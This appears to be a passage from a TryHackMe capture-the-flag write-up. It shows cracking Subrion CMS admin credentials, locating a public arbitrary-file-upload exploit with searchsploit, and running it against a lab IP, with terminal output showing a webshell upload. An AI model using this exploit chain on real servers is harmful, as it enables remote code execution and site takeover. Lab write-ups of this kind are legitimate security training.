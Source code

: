 Wow, this are some interesting goals, but the more important stuff is the subrion creds.

So I found the page that used to login into subrion `$ip/subrion/panel`.
I tried to login with the username: `admin` and the password: `7sKvntXdPEJaxazce9PXi24zaFrLiKWCk`, but it didn't worked. The file gives us a hint about the password `[cooked with magical formula]`, which means that this is encrypted.

I used CyberChief to decrypt it and got the password.

After, trying to again, we are in!

Then, I searched for an exploit by using `searchsploit` and found a Arbitrary File Upload exploit:

```
┌──(kali㉿kali)-[~/ctf/tryhackme/Tech_Supp0rt:1]
└─$ searchsploit subrion 4.2.1
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
Subrion 4.2.1 - 'Email' Persistant Cross-Site Scripting                         | php/webapps/47469.txt
Subrion CMS 4.2.1 - 'avatar[path]' XSS                                          | php/webapps/49346.txt
Subrion CMS 4.2.1 - Arbitrary File Upload                                       | php/webapps/49876.py
Subrion CMS 4.2.1 - Cross-Site Scripting                                        | php/webapps/45150.txt
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

So i downloaded the arbitrary file upload exploit:

```
┌──(kali㉿kali)-[~/ctf/tryhackme/Tech_Supp0rt:1]
└─$ searchsploit -m php/webapps/49876.py
  Exploit: Subrion CMS 4.2.1 - Arbitrary File Upload
      URL: https://www.exploit-db.com/exploits/49876
     Path: /usr/share/exploitdb/exploits/php/webapps/49876.py
File Type: Python script, ASCII text executable, with very long lines (956)

Copied to: /home/kali/ctf/tryhackme/Tech_Supp0rt:1/49876.py
```

and executed it:

```
┌──(kali㉿kali)-[~/ctf/tryhackme/Tech_Supp0rt:1]
└─$ python3 49876.py -u http://10.10.178.31/subrion/panel/ -l admin -p Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422

[+] Trying to connect to: http://10.10.178.31/subrion/panel/
[+] Success!
[+] Got CSRF token: OSUbOvNhBnPUdoS3GyvAnWC9UrcpWqVZNNwWs0En
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: grutdmevxsbarvf

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.178.31/subrion/panel/uploads/grutdmevxsbarvf.phar
```
